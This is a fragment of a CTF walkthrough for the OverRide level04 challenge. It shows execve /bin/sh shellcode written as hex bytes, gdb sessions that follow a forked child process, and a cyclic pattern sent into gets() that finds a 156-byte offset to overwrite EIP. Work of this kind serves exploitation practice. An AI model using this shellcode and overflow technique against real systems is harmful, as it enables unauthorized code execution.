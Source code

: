 

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
child is exiting...
```

```
run

=> 0x080486d6 <+14>:	call   0x8048550 <fork@plt>
   0x080486db <+19>:	mov    %eax,0xac(%esp)
   
(gdb) ni
0x080486db in main ()
(gdb) Give me some shellcode, k   
   
```
as u see the main parent process jumps directly to the prompt


(gdb) set follow-fork-mode child

=> 0x804875e <main+150>:	call   0x80484b0 <gets@plt>

```
(gdb) run <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1709]
=> 0x6261616f

(gdb) i r $eip
eip            0x6261616f

➜  Desktop cyclic -l 0x6261616f
156

```






























